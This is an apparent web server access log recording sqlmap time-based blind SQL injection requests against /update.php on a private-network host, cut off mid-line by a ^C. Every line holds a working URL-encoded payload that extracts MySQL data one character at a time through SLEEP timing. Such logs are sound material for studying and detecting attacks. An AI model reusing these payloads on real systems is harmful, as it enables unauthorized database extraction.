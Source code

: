 ```bash
3004110 192.168.86.1 - - [20/Jul/2021:05:44:42 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E31%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4209 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%21%3D32%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005636 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E64%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3460 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E96%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003961 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E80%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4347 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E88%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
5354 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E84%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005380 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E82%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3655 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E83%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4992 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%2^C
```
